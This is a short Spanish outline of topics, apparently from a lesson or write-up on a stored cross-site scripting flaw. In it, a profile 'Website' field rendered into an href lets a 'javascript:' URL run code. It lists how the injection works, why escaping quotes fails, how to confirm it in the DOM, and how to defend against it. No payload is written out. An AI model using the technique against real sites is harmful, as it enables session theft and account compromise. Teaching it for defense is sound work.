- Cómo se transforma `Website` en un `href`.
- Por qué `javascript:` ejecuta código en un enlace.
- Por qué no hace falta romper el HTML.
- Por qué codificar comillas dobles no basta.
- Qué diferencia hay entre sintaxis HTML y semántica del atributo.
- Por qué el payload queda persistente.
- Cómo confirmar la vulnerabilidad en el DOM.
- Cómo se debería defender correctamente.

